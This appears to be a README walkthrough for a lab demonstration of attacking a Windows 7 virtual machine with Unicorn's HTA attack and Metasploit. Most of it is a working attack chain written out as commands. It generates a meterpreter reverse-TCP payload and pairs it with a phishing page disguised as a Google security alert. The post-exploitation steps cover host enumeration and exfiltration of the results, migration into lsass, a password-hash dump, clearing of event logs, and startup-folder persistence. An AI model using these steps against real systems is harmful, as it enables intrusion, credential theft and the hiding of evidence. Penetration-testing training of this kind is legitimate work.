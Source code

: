 # Unicorn Demo 
I have built this as a way to demo attacking a Windows 7 machine using metasploit and Unicorn's HTA attack.  
Todd Murray pdxgeek57@gmail.com

## Environment Details

Kali from https://www.kali.org/downloads/  
Unicorn from https://github.com/trustedsec/unicorn  
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso from https://the-eye.eu/public/MSDN/Windows%207/  
I used VMware 11.5 on MacOS Catalina 10.15.2 but you can use other HyperVisors.  
**I would NOT reccomend AWS/Azure as they may interpret these activities as malicous and kill your environment/account**  
Note that VMware versions lower than 11 have display issues with VM's on Catalina  

## Kali Setup

Download and Install the latest Kali Linux 64-Bit Image  
Run 'apt update' and then 'apt upgrade'. This will update Kali to the latest including metasploit which we will be using.  
Enable Postgresql and Apache2 to start at boot 'systemctl enable postgresql' and 'systemctl enable apache2'  
Start Postgresql and Apache2 "systemctl start postgresql' and 'systemctl start apache2'  
Start Metasploit "msfconsole' to initialize the db then 'exit' out  

## Windows 7 Setup
 
Install Windows in a trial, no key is needed unless you have a valid license  
During install I created an administrator account named "admin". IF you use somethign else you will need to make changes later on.  
If you are testing against an AV solution make sure its in "Detect Only" mode.  
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM  
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can google this if your not sure how.  


## Setup Kali (All done in a Terminal window, if you are not root you may need to use sudo for some commands)

Switch to /opt 'cd /opt'  
Download Unicorn 'git clone https://github.com/trustedsec/unicorn.git'  
Run 'ifconfig' and note your IP  
Switch to /opt/unicorn 'cd /opt/unicorn'  
Review the README.md  
Run unicorn.py using your kali IP and hta method for revese_tcp payload 'python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta'  
This generates and hta_attack folder that you now copy to /var/www/html 'cp hta_attack /var/www/html'  
Switch to /var/www/html/hta_attack 'cd /var/www/html/hta_attack'  
Use your favorite editor to modify unicorn.rc 'vi unicorn.rc'  
Make sure AutoVerifySession, AutoSystemInfo, and AutoLoadStdapi are all set to true then save your changes    

This generates the payload and metasploit configuration into our apache instance.  
In my case the URL is http://172.16.105.131/hta_attack/  
What i did next was generated a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the URL above". I also went into my Google account to the Security settings page and saved this page. I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted. It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.


## Next is to setup what we will do once we click the email link and open Launncher.hta

Download this repo that contains my demo.rc script  
Go back to /opt 'cd /opt/' and clone this repo 'git clone https://github.com/wond696/unicorn-demo.git'  
Switch to /opt/unicorn-demo and review demo.rc 'cd /opt/unicorn-demo' and 'cat demo.rc'  
My script is based on being logged in as a user named "admin", you may have to make modifications if you use a different account. Also, ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process  
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and causes a keyboard buffering problem so I'm only do base collection in the script and uploading files.  

## Download JAWS
'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'  
Review the README.md 'cat /opt/JAWS/README.md'  
  
Start our metasploit listener 'msfconsole -r /var/www/html/hta_attack/unicorn.rc'  
Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ and run/open the file when prompted  
This will generate a reverse tcp onto port 4444, you should see the session start.  
Confirm the session 'sessions -i'  
Connect to the session number 'sessions -i 1'  
Run demo.rc at the meterpreter prompt 'run /opt/unicorn-demo/demo.rc'  
Run the following commands (You may have to hit enter after the powershell commands run)  
'shell'  
'powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted' Enables powershell script execution.  
'powershell ./jaws-enum.ps1 exfil.txt' On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.  
'exit'  
'download exfil.txt'  
'rm jaws-enum.ps1'  
'rm exfil.txt'  
'run post/windows/manage/migrate' This should migrate you to a new notepad.exe process.  
'ps' Review and find the pid for lsass.exe  
'migrate 592' Use the pid for lsass.exe If this works you are now under a SYSTEM process.  
'hashdump' This will give you hashes that you might be able to convert to plaintext in jacktheripper or https://crackstation.net/  
'clearev' Clears Windows Logs


If you have followed this precisly and made changes to IP and username where needed you should have gather a lot of system information, have a exfil.txt file in your current directory, Launcher.hta should now be persitent by being in the users Start Menu > Startup. Reboot your Windows 7 VM to test, it should reconnect after you login.

